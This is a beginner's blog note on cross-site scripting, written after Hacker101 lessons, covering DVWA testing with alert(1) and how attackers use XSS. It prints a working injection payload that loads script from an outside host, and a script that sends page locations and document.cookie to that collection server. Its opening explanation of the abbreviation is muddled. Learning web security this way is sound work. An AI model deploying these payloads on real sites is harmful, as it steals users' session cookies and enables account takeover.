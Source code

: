 ```yaml
---
layout: title
title: How to use XSS
date: 2018-12-17 09:11:06
tags: hacker101, security, XSS
categories: Hack
---
```


After following the hack101 video tutorial for a while. I want to write some note about XSS. 

## What is XSS

XSS(Cross Site Scripting) is the mix abbreviation for Cascading Style Sheets, CSS. Though it seems out of date at the moment. But to some beginner just like me, it's a good way to experience the fun of looking bugs. 

## XSS detecting
People can deploy a DVWA as a dev environment for testing the XSS.

At the lowest security level of DVWA, the client owns no filter to any users input. It means, input is the output. 

The simplest XSS detecting is the `alert(1)`. Whether create a div or inject a `<script>alert(1)</script>`, the things we focus on is compile the code. 

## How hacker use XSS
Sometimes, when the security developer found that bug, he will terminate the XSS, that is one of his duty. But as a cursorily, he needs to use those bug to find why a way to hackin the inside. 
If the website exists XSS loophole, then it must be able to run the js code.

e.g. we can get the cookies on the page by enter alert(document.cookie). But most of time, hacker don't just inject a snippet of code, since it is no reason to use their own cookie. But they can send the cookies to a platform. Like XSSer, receive the XSS from all over the world. 

When xsser has done, hacker can insert the script into page like this: 

```
<img   onerror="s=createElement('script');body.appendChild(s);s.src='http://192.168.1.103/xss/SMA9ST';" src="x">
```

This is a img tag, the src is point to `x`. Obviously, this address is not exists. So it will run `onerror`. This function will generate a script tag, then point the new script tag to the xsser platform, which we builded before. Once the code request to the xsser. It will get the code, e.g.

```
(function() {
		(new Image()).src = 'http://192.168.1.103/xss/index.php?do=api&id=SMA9ST&location=' + escape((function() {
			try {
				return document.location.href
			} catch (e) {
				return ''
			}
		})()) + '&toplocation=' + escape((function() {
			try {
				return top.location.href
			} catch (e) {
				return ''
			}
		})()) + '&cookie=' + escape((function() {
			try {
				return document.cookie
			} catch (e) {
				return ''
			}
		})()) + '&opener=' + escape((function() {
			try {
				return (window.opener && window.opener.location.href) ? window.opener.location.href : ''
			} catch (e) {
				return ''
			}
		})());
	})();
```

In this code snippet, it also generate a image object and request a xsser project. Than we got the location information and cookies. 

Everytime when people open XSS page, the browser will run that kind of code, it mask as a image to send data to xsser.

That is the simple usage of XSS.

